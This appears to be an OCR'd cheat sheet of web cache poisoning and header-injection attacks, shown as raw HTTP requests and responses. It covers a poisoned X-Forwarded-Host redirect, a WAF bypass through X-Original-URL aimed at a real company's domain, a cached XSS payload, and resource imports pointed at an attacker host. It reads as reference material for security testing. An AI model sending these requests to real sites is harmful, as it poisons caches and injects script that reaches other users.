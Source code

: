 -

    # Attacker Request
    GET / HTTP/1.1
    Host: www.example.com
    X-Forwarded-Host: www.example.com:10000

    # Redirect Response
    HTTP/1.1 302 Found
    Location: https://www.example.com:10000/en
    X-Cache: MISS, MISS

    # Victim Request + Response
    GET / HTTP/1.1
    Host: www.example.com

    HTTP/1.1 302 Found
    Location: https://www.example.com:10000/en
    X-Cache: MISS, HIT

# Bypassing WAF <PHP Frameworks>
    GET /admin HTTP/1.1
    Host: unity.com
    HTTP/1.1 403 Forbidden
    ...
    Access is denied

    GET /anything HTTP/1.1
    Host: unity.com
    X-­Original-­URL: /admin
    HTTP/1.1 200 OK
    ...
    Please log in


# XSS Payload Example
    GET /en?region=uk HTTP/1.1
    Host: innocent-website.com
    X-Forwarded-Host: a."><script>alert(1)</script>"

    HTTP/1.1 200 OK
    Cache-Control: public
    <meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />

# Unsafe Handling of resource imports
    GET / HTTP/1.1
    Host: innocent-website.com
    X-Forwarded-Host: evil-user.net

